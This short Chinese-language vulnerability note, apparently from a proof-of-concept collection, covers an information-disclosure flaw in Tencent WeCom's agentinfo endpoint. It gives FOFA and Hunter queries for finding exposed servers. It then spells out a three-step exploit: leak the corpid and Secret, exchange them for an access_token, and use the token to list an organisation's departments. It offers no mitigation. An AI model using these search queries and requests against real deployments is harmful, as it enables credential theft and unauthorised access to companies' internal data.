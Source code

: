 # 腾讯 企业微信 agentinfo 信息泄漏漏洞

## 网络测绘

fofa: app="Tencent-企业微信"

hunter: app.name="腾讯企业邮箱"

## POC / EXP

```
# 通过API接口获取corpid和Secret
/cgi-bin/gateway/agentinfo

# 通过corpid和Secret构造请求获取access_token调用接口凭证
/cgi-bin/gettoken?corpid={corpid}&corpsecret={Secret}

# 通过access_token调用接口凭证获取部门列表
/cgi-bin/department/list?access_token={access_token}
```

```
https://developer.work.weixin.qq.com/document/path/91039
```